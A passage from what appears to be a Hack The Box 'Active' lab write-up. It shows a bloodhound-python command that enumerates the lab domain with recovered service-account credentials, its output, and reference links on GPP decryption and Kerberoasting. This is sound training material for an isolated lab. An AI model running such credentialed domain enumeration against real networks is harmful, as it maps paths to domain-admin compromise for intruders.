 To escalate our privileges we must find a path to a domain admin.

<div class="article-image">
  <img src="/assets/img/active/bloodhound_mindmap.png">
</div>

The mind map shows that since we now have valid credentials, we can launch Bloodhound to gather all domain data through LDAP.

Let's run the first command shown but with an additional argument.

<div class="article-code">
{% highlight sh%}
jeanp@~/BloodhoundData$ bloodhound-python -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -gc active.htb -ns 10.10.10.100 -c all
INFO: Found AD domain: active.htb
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc.active.htb:88)] [Errno 110] Connection timed out
INFO: Connecting to LDAP server: dc.active.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.active.htb
INFO: Found 5 users
INFO: Found 41 groups
INFO: Found 2 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: DC.active.htb
INFO: Done in 00M 10S
                                                                                                                                                 
jeanp@~/BloodhoundData$ ls
20241017115629_computers.json   20241017115629_domains.json  20241017115629_groups.json  20241017115629_users.json

[gpp-decrypt]: https://www.kali.org/tools/gpp-decrypt/
[AES-Key]: https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be
[AD-Mindmap]: https://raw.githubusercontent.com/Orange-Cyberdefense/ocd-mindmaps/main/img/pentest_ad_dark_2023_02.svg
[Kerberoasting]: https://www.ibm.com/topics/kerberoasting#:~:text=Kerberoasting%20is%20a%20cyberattack%20that,data%2C%20spread%20malware%20and%20more. 
[Hashcat-Catalog]: https://hashcat.net/wiki/doku.php?id=example_hashes